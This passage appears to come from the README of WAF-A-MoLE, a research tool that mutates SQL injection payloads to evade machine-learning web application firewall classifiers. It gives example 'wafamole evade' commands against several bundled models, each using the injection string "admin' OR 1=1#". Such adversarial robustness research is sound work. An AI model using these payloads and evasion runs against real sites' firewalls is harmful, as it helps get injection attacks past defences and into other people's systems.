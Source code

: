 ### WAF-BRAIN - Recurrent Neural Newtork

Bypass the pre-trained WAF-Brain classifier using a `admin' OR 1=1#` equivalent.

```bash
wafamole evade --model-type waf-brain wafamole/models/custom/example_models/waf-brain.h5  "admin' OR 1=1#"
```

### ML-Based-WAF - Non-Linear SVM (with original WAF-A-MoLE dataset)
Bypass the pre-trained ML-Based-WAF SVM classifier using a `admin' OR 1=1#` equivalent. 

```bash
wafamole evade --model-type mlbasedwaf wafamole/models/custom/example_models/mlbasedwaf_svc.dump  "admin' OR 1=1#"
```

### ML-Based-WAF - Non-Linear SVM (with SQLiV5/SQLiV3 datasets)
Bypass the pre-trained ML-Based-WAF SVM classifier using a `admin' OR 1=1#` equivalent. Note that SQLiV5 is a dataset sourced from [Kaggle](https://www.kaggle.com/datasets/syedsaqlainhussain/sql-injection-dataset) expanded with a series of queries generated by WAF-A-MoLE itself, as a proof of concept that WAF-A-MoLE queries can enhance the robustness of a WAF with retraining. Use `mlbasedwaf_svc_sqliv3.dump` to bypass the WAF trained with the original Kaggle dataset (SQLiV3).

```bash
wafamole evade --model-type mlbasedwaf wafamole/models/custom/example_models/mlbasedwaf_svc_sqliv5.dump  "admin' OR 1=1#"
```

### ML-Based-WAF - Stochastic Gradient Descent (SGD)
Bypass the pre-trained ML-Based-WAF SGD classifier using a `admin' OR 1=1#` equivalent. 

```bash
wafamole evade --model-type mlbasedwaf wafamole/models/custom/example_models/mlbasedwaf_sgd.dump  "admin' OR 1=1#"
```

### ML-Based-WAF - AdaBoost
Bypass the pre-trained ML-Based-WAF AdaBoost classifier using a `admin' OR 1=1#` equivalent (takes longer than other models, at around 2 to 5 minutes of runtime). 

```bash
wafamole evade --model-type mlbasedwaf wafamole/models/custom/example_models/mlbasedwaf_ada.dump  "admin' OR 1=1#"
```
### Token-based - Naive Bayes

Bypass the pre-trained token-based Naive Bayes classifier using a `admin' OR 1=1#` equivalent.

```bash
wafamole evade --model-type token wafamole/models/custom/example_models/naive_bayes_trained.dump  "admin' OR 1=1#"
```
